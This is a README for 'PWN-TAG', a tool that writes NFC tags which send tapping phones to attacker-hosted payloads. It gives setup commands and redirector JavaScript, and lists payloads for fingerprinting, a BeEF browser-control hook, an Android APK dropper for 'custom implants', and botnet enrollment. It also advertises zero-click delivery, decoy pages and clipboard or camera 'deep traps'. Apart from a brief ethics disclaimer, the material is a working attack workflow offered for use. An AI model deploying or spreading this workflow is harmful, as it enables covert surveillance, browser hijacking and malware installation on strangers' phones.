 # PWN-TAG  PRO \ use with paid ngrok accounts
_"tag to pwn"_ — NFC payload delivery system for social engineering, red team ops, and mobile testing.

PWN-TAG lets you write NFC tags that trigger live payloads on mobile devices — from fingerprinting to botnet enrollment. Built for ethical hackers, educators, defenders, and curious minds.

---

##  What You Need

*  NFC tag stickers (\~\$10 for 25):
  [https://a.co/d/gl2XRV8](https://a.co/d/gl2XRV8)

*  NFC writer app (free):
  [https://apps.apple.com/app/id1252962749](https://apps.apple.com/app/id1252962749)

*  A Debian-based Linux system 

*  A [ngrok](https://ngrok.com/) account (free or paid)

## Branches

| Branch         | Purpose                                                                 |
|----------------|-------------------------------------------------------------------------|
| `main`         | Free-tier version using randomized ngrok URLs (requires tap + confirm) |
| `ngrok-pro`    | Paid ngrok version with static subdomains → enables **zero-click** payloads |


---

##  Installation (Clone + Setup)

```bash
git clone https://github.com/ekomsSavior/PWN-TAG.git
cd PWN-TAG
```

# (Optional) Switch to pro version for static subdomain support thru paid ngrok acct

```bash
git checkout pwn_tag_pro
```

for free ngrok account use main branch:

```bash
git checkout main
```

# Install Python dependencies

```bash
sudo apt update
sudo apt install python3 python3-pip -y
pip3 install flask
```

## ngrok Setup

```bash
wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz
tar -xvzf ngrok-v3-stable-linux-amd64.tgz
sudo mv ngrok /usr/local/bin/
```

Then authenticate your token: [https://ngrok.com/](https://ngrok.com/)

```bash
ngrok config add-authtoken <YOUR_NGROK_AUTH_TOKEN>
```


---

##  Usage (4 Terminal Workflow)

### Terminal 1 — Start Payload Server

```bash
python3 -m http.server 8080
```

This serves your payloads at `http://localhost:8080`

---

### Terminal 2 — Start ngrok Tunnel

```bash
ngrok http 8080
```

Copy the `https://...ngrok.app` URL — this becomes your **NFC tag link**.

---

### Terminal 3 — Edit Payload Redirector

```bash
nano payloads/test_shell.html
```

Update this line with your current ngrok URL:

```javascript
window.location.href = "https://your-ngrok-subdomain.ngrok.app/payloads/bot_joiner.html";
```

---

### Terminal 4 — Start Listener

```bash
python3 listener.py
```

Logs any device fingerprinting or interaction data sent by payloads.

---

## Write Your NFC Tag

Using your NFC writer app:

1. Tap **Write**
2. Add Record → **URL**
3. Paste something like:

```
https://pwn-tag.ngrok.app/payloads/test_shell.html
```

4. Tap “Write” to encode it

 Now when someone taps the tag, it opens the redirector → logs the device → delivers your payload.

---

##  Payload Options (Examples & Use Cases)

| Payload               | Path                       | Description                                                         |
| --------------------- | -------------------------- | ------------------------------------------------------------------- |
| **Test Shell**        | `payloads/test_shell.html` | Logs fingerprint (user agent, screen size, timezone) then redirects |
| **Full Beacon Shell** | `payloads/beef_shell.html` | Loads a BEEF hook for browser control (if server is running)        |
| **APK Dropper**       | `payloads/spy.apk`         | Sends Android users a direct APK (custom implants welcome)          |
| **Rogue Joiner**      | `payloads/bot_joiner.html` | Simulates Rogue Botnet join — connect, beacon, execute JS           |

---

##  Swapping Payloads (Beginner-Friendly)

1. Open `payloads/test_shell.html`
2. Change this line:

```javascript
window.location.href = "https://your-ngrok.ngrok.app/payloads/YOUR_FILE_HERE";
```

3. Example:

```javascript
window.location.href = "https://pwn-tag.ngrok.app/payloads/spy.apk";
```

 No need to rewrite the NFC tag if you're using a static domain — just update the file.

---

##  Pro Tips

*  Make multiple redirectors (`redirect_to_apk.html`, etc.)
*  Make `index.html` a 403 decoy or fake blog
*  Want geolocation? Use `https://ipinfo.io/json` in your JS
*  Want deep traps? Chain to `clipboard.js`, `camlog`, etc. before redirect
*  With static domains (`ngrok-pro`), your NFC tags are reusable forever

---

##  Ethical Usage

This tool is intended for **educational purposes, red-team ops, and ethical testing only**.
You are responsible for your actions. Do not use this on devices or individuals without consent.

---


- ✅ `setup_repo.sh` for auto-deployment
- ✅ A `payloads/README.md` to explain each file
- ✅ BEEF hook setup instructions
- ✅ QR code payload variants for phones with no NFC

Let’s make this repo unforgettable 🌐💥
```
